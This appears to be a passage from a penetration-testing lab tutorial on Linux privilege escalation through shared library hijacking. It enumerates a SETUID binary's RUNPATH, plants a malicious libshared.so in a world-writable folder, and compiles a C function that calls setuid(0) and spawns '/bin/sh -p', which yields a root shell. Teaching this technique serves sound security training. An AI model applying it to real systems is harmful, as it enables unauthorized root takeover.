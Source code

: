 Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

> ls -la payroll

    -rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll


We can use <ldd> (*https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html*) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

> ldd payroll

    linux-vdso.so.1 =>  (0x00007ffcb3133000)
    libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)


We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the <readelf> (*https://man7.org/linux/man-pages/man1/readelf.1.html*) utility.

> readelf -d payroll  | grep PATH

    0x000000000000001d (RUNPATH)            Library runpath: [/development]

The configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

> ls -la /development/

    total 8
    drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
    drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../


Before compiling a library, we need to find the function name called by the binary.

> cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

> ldd payroll

    linux-vdso.so.1 (0x00007ffd22bbc000)
    libshared.so => /development/libshared.so (0x00007f0c13112000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)

>  ./payroll 

    ./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.so`, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

<Code : c>
    #include<stdio.h>
    #include<stdlib.h>

    void dbquery() {
        printf("Malicious library loaded\n");
        setuid(0);
        system("/bin/sh -p");
    } 

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh when called. Compile it using GCC.

> gcc src.c -fPIC -shared -o /development/libshared.so

Executing the binary again should display the banner and pops a root shell.

> ./payroll 

    ***************Inlane Freight Employee Database***************

    Malicious library loaded
    # id
    uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)